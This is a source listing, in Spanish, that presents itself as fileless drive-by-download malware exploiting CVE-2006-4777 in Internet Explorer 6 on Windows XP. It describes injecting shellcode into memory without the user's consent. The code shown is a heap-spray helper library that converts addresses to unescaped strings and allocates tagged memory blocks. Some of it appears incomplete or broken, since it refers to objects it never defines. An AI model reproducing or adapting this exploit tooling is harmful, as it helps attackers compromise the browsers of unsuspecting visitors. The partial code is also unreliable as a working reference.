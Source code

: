 INFO
----

    # js-driveby-download-CVE-2006-4777
    malware del lado del cliente de explotacion de vulnerabilidad de internet explorer 6.0 SP1 en windows xp SP2.
    No requiere de consentimiento por parte del usuario y no descarga ningun archivo.
    Injeccion de Codigo Shell en la RAM desde JavaScript con IE en Windows XP.

    Fileless, drive-by-download, client side malware.

PilaLib.js
----------

    function pilaLib() {
    }

    pilaLib.ie.prototype.cadenaHex = function(numeroHexadecimal, anchoBytes)
    {
        var digitos = "0123456789ABCDEF";
        var cadenaHexadec = digitos.substr(numeroHexadecimal & 0xF, 1);
        while (numeroHexadecimal > 0xF) {
            numeroHexadecimal = numeroHexadecimal >>> 4;
            cadenaHexadec = digitos.substr(numeroHexadecimal & 0xF, 1) + cadenaHexadec;
        }
        var anchoBytes = (anchoBytes ? anchoBytes : 0);
        while (cadenaHexadec.length < anchoBytes)
            cadenaHexadec = "0" + cadenaHexadec;
        return cadenaHexadec;
    }

    pilaLib.ie.prototype.direccion = function(direccion) {
        return unescape("%u" + this.cadenaHex(direccion & 0xFFFF, 4) + "%u" + this.cadenaHex((direccion >> 16) & 0xFFFF, 4));
    }

    pilaLib.ie.prototype.escribeInts32Bits = function(numeroBytesBloque, etiquetaBloque) {
        var tamanio;
        // Calculate the allocation size
        if (typeof numeroBytesBloque == "string" || numeroBytesBloque instanceof String)
            tamanio = 4 + numeroBytesBloque.length*2 + 2;    // len + string data + null terminator
        else
            tamanio = numeroBytesBloque;
        // Make sure that the size is valid
        if ((tamanio & 0xf) != 0)
            throw "Allocation size " + tamanio + " must be a multiple of 16";
        // Create an array for this tag if doesn't already exist
        if (this.memoria[etiquetaBloque] === undefined)
            this.memoria[etiquetaBloque] = new Array();
        if (typeof numeroBytesBloque == "string" || numeroBytesBloque instanceof String) {
            // Allocate a new block with strdup of the string argument
            this.memoria[etiquetaBloque].push(numeroBytesBloque.substr(0, numeroBytesBloque.length));
        }
        else {
            // Allocate the block
            this.memoria[etiquetaBloque].push(this.rellena((numeroBytesBloque-6)/2));
        }
    }
